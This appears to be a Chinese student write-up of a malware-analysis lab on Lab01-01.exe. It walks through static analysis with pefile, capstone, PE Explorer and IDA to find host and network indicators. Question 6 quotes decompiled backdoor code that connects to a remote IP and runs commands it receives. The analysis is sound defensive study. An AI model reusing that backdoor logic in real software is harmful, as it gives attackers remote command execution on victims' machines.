



# lab1-1

## QUESTION 1

> Upload the files to [http://www.VirusTotal.com/](http://www.virustotal.com) and view the reports. Does either file match any existing antivirus signatures?

文件上传的 sha256 hash 值为：

```bash
$ sha256sum Lab01-01.exe 
58898bd42c5bd3bf9b1389f0eee5b39cd59180e8370eb9ea838a0b327bd6fe47  Lab01-01.exe
```

因此上传的 `url` 为：[https://www.virustotal.com/#/file/58898bd42c5bd3bf9b1389f0eee5b39cd59180e8370eb9ea838a0b327bd6fe47/detection](https://www.virustotal.com/#/file/58898bd42c5bd3bf9b1389f0eee5b39cd59180e8370eb9ea838a0b327bd6fe47/detection)

可以看到许多病毒引擎都检测到这是一个木马。

## QUESTION 2

> When were these files compiled?

PE 文件的文件结构可以参考[微软的官方文档](https://docs.microsoft.com/en-us/windows/desktop/debug/pe-format)。

可以找到在对象文件的的最开始，存在一个标准文件头，其中有一个 `TimeDateStamp` 域，指示了文件创建时的时间戳，可以使用以下的 python 脚本读取它：

```python
# lab1-1-2.py
from datetime import datetime
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-01.exe")
print(datetime.fromtimestamp(pe.FILE_HEADER.TimeDateStamp))
```

```bash
$ python lab1-1-2.py
2010-12-20 00:16:19
```

## QUESTION 3

> Are there any indications that either of these files is packed or obfuscated? If so, what are these indicators?

### `packerid`

安装 `BlackArch` 的工具 `packerid`：

```bash
$ sudo pacman -S packerid
```

这是一个基于字节码特征匹配打包程序的命令行工具。

*   字节码特征我们使用 `pefile` 这个 python 开源库中的数据库：[https://github.com/sooshie/packerid/blob/master/userdb.txt](https://github.com/sooshie/packerid/blob/master/userdb.txt)

    （另外我在运行程序时发现了一个报错，原因是字节码特征中出现了 `V3` 这类的字节码，暂时还不清楚这个字节码的含义是什么）
* 字节码文件保存在 `/usr/share/packerid/userdb.txt` 文件夹中

直接指定文件路径来分析 PE 文件：

```bash
$ packerid /tmp/BinaryCollection/Chapter_1L/Lab01-01.exe 
['Microsoft Visual C++ v5.0/v6.0 (MFC)']
```

### `pefile`

通过 `pefile` 也可以通过特征匹配的方式识别 PE 文件的打包方式。

其实在第一种方法中 `packerid` 的底层就是使用 `pefile` 这个 python 的库，然后使用开源的[特征库](https://github.com/sooshie/packerid/blob/master/userdb.txt)进行匹配的。此处就不手动实现了

### `PEiD`

或者通过 `PEiD` 这个软件进行分析：

.png>)

### 结论

可以看到这是一个 `VC++ MFC` 打包的文件，也就是说这个文件没有加壳。

## QUESTION 4

> Do any imports hint at what this malware does? If so, which imports are they?

### `malscan`

安装 `BlackArch` 的工具 `malscan`：

```bash
$ sudo pacman -S malscan
```

`malscan` 是一个启发式静态分析工具，使用一下命令检测：

```bash
$ malscan /tmp/BinaryCollection/Chapter_1L/Lab01-01.exe
...
[Imports Overview]

KERNEL32.dll
    0x402000 CloseHandle
    0x402004 UnmapViewOfFile
    0x402008 IsBadReadPtr
    0x40200c MapViewOfFile
    0x402010 CreateFileMappingA
    0x402014 CreateFileA
    0x402018 FindClose
    0x40201c FindNextFileA
    0x402020 FindFirstFileA
    0x402024 CopyFileA

MSVCRT.dll
    0x40202c malloc
    0x402030 exit
    0x402034 _exit
    0x402038 _XcptFilter
    0x40203c __p___initenv
    0x402040 __getmainargs
    0x402044 _initterm
    0x402048 __setusermatherr
    0x40204c _adjust_fdiv
    0x402050 __p__commode
    0x402054 __p__fmode
    0x402058 __set_app_type
    0x40205c _except_handler3
    0x402060 _controlfp
    0x402064 _stricmp
...
```

### `pefile`

或者使用 `pefile` 先读取所有的导入函数，然后一一打印，`malscan` 也是使用同样的方式实现的，此处就不手动实现了。

### `PE Explorer`

或者直接使用 `PE Explorer` 可以查看以下的导入函数结果：

.png>)

链接库的导入表分析：



### 结论

以上分析说明 `lab01-01.exe` 这个可执行文件主要包含了复制和查找文件的操作。

`lab01-01.dll` 这个动态链接库引用了新建进程、睡眠、创建 `Mutex` 等多个有关进程的操作。还导入了 `WS2_32.dll` 这个主要用与网络套接字建立的动态链接库。

## QUESTION 5

> Are there any other files or host-based indicators that you could look for on infected systems?

从之前的动态链接库导入函数分析来看，我们可以分析主机的网络链接状态来分析主机是否感染了此病毒。

### `PE Explorer`

另外我们分析可执行文件的 `.data` 全局数据段：



我们发现一个叫做 `kerne132.dll` 的字符串，这个字符串用数字 `1` 代替了字母 `l`，貌似是想要掩盖什么东西。我们查找调用这个字符串的位置，我们发现下面的汇编指令：

```
...          
push    00000000h
push    SSZ0040304C_C__windows_system32_kerne132_dll
push    SSZ0040307C_Lab01_01_dll
call    [KERNEL32.dll!CopyFileA]
...
```

结合全局数据段中的 `Lab01-01.dll` 这个字符串。这一段代码将同文件夹下的 `Lab01-01.dll` 这个静态链接库复制到了 `C:/Windows/System32/kerne132.dll` 这个文件。

### `pefile` & `capstone`

也可以用 `pefile` 首先读取所有段的名称和其相对偏移地址：

```python
#!/usr/bin/env python
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-01.exe")
print([(s.Name, hex(s.VirtualAddress)) for s in pe.sections])
# [(b'.text\x00\x00\x00', '0x1000'), (b'.rdata\x00\x00', '0x2000'), (b'.data\x00\x00\x00', '0x3000')]
```

可以看到 `.data` 段存在，并且其相对虚拟地址为 `0x3000`。然后我们通过以下的程序手动处理并读取 `.data` 段内的内容：

```python
#!/usr/bin/env python
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-01.exe")
data, string, offset = [], "", 0
for index, item in enumerate(pe.sections[2].get_data()):
    if item != 0:
        string += chr(item)
    elif string != "":
        data.append((string, hex(index)))
        string = ""
for d in data: print(d)
# ...
# ('C:\\windows\\system32\\kerne132.dll', '0x4c')
# ...
```

我们同样找到了这个字符串，其相对偏移地址为 `0x4c`，又因为 `.data` 段的虚拟地址为 `0x3000`，所有这个字符串的虚拟地址为 `0x304c`。

然后我们通过 capstone 这个库反汇编 `.text` 段的内容，并查找字符串 `304c` 所在的指令位置：

```python
#!/usr/bin/env python
import capstone
import pefile

pe = pefile.PE("/tmp/BinaryCollection/Chapter_1L/Lab01-01.exe")
cs = capstone.Cs(capstone.CS_ARCH_X86, capstone.CS_MODE_32)
disas = cs.disasm(pe.sections[0].get_data(), pe.sections[0].VirtualAddress)
call_poss, instructions = [], []
for index, ins in enumerate(disas):
    instructions.append(ins)
    if "304c" in ins.op_str:
        call_poss.append(index)
for ind, pos in enumerate(call_poss):
    print(f"\nCALLED POS {ind} ==> {pos}")
    for ins in instructions[(pos-3 if (pos > 3) else 0):
        (len(instructions) if (pos > len(instructions)-3) else pos+10)]:
        print(f"{hex(ins.address)}:\t{ins.mnemonic}\t{ins.op_str}")
```

```
CALLED POS 0 ==> 749
0x17e5: push    edx
0x17e6: call    esi
0x17e8: push    0
0x17ea: push    0x40304c
0x17ef: push    0x40307c
0x17f4: call    dword ptr [0x402024]
```

通过之前对链接库的分析，我们知道这个字符串作为 `0x402024` 这个函数（即 `CopyFileA`）的参数进行了调用。

### 结论

综上，我们还可以通过 `C:/Windows/System32` 这个文件夹下是否存在 `kerne132.dll` 这个文件来判断主机是否被感染。

## QUESTION 6

> What network-based indicators could be used to find this malware on infected machines?

根据前面的分析，可执行文件通过将动态链接库复制到 `C:/Windows/System32` 这个文件夹下，然后通过这个动态链接库进行进程、网络相关的动作，因此我们分析这个动态链接库。`.data` 段全局字符串：



其中 `exec` 和一个 `127.26.152.13` 这个为 IP 地址格式的字符串非常可疑。为了分析该动态链接库的网络特征，我们查找调用第二个字符串的位置 `.text:100010A3`，使用 `IDA Pro` 分析出以下的伪代码：

```c
//...
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)name.sa_data = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
                    }
                    Sleep(0x60000u);
                }
            }
        }
    }
    closesocket(v3);
}
//...
```

其中 `socket(2,1,6)` 这行代码，通过查找 [MSDN](https://docs.microsoft.com/en-us/windows/desktop/api/winsock2/nf-winsock2-socket) 的 API，我们知道这是通过与 `127.26.152.13` 这个远程地址，`0x50 (80)` 这个端口，建立一个 IPv4 的 TCP 链接。再分析下面的代码逻辑：

1. 如果远程发送 `sleep` 这个字符串，则线程休眠；
2. 如果远程发送 `exec` 这个开头的字符串，则线程会调用命令行执行这个命令。这相当于给远程反弹了一个用于任意命令执行权限的 `shell`；
3. 如果远程发送 `acsii` 码为 113 的字符，即 `q`，则该套接字断开；

在 `cmd` 中执行以下的命令：

```
$ netstat -p TCP -an | findstr 127.26.152.13
```

可以查找与主机 `127.26.152.13` 进建立的所有 `TCP` 连接。

## QUESTION 7

> What would you guess is the purpose of these files?

通过之前的分析，这个程序的逻辑已经相当清楚了。

可执行文件通过将同文件夹下的动态链接库复制到 `C:/Windows/System32` 这个文件夹下并命名为 `kern132.dll`。主程序调用这个动态链接库与远程地址 `127.26.152.13` 的 `80` 端口主动建立一个 TCP 链接。远程发送以 `exec` 开头的字符串执行任意命令，发送 `q` 结束进程。
